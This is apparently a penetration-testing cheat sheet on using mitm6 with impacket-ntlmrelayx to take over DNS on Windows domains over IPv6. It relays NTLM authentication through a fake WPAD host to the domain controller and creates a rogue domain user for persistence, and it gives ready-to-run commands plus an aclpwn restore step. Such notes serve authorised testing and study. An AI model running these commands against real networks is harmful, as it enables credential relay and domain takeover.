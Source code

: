 # mitm6

This tool helps exploit default configuration of Windows to take over default DNS server. This tool is designed to work
with `impacket-ntlmrelayx`.

```bash
sudo mitm6 -d DOMAIN
```

## IPv6 DNS takeover

### Information:

**WPAD (Windows Proxy AutoDiscovery) service** is one that any system in domain sends data to proxy to DC. This happens
when a Windows system is rebooted, sends out a broadcast message to identify the WPAD service IP. Using `ntlmrelayx` we
can host a fake WPAD service and hijack all requests. When a user attempts to connect to DC, it receives the NTLMv2
Hash, proxies to DC which successfully authenticates via the challenge-response and and `ntlmrelayx` on successful
exploitaion, will create a new user within the domain to establish persistence.

```bash
sc query winhttpautoproxysvc
SERVICE_NAME: winhttpautoproxysvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 4  RUNNING
                                (NOT_STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

```bash
# to perform MiTM
sudo mitm6 -d DOMAIN

$ sudo impacket-ntlmrelayx -6 -t [ldaps://DC_IP] -wh [fake-wpad.DOMAIN] -l [LOOT_DIR]
# successful will create a user on domain
# generates a .restore file to restore ACL.
```

### Restore using aclpwn

```bash
# pip3 install aclpwn
aclpwn -d DOMAIN --restore .RESTORE_FILE [-u USER] [-p PASS] [-dry]
```

## DNS takeover using delegate access

* [dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

## Additional Reading

* [blog.fox-it.com/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
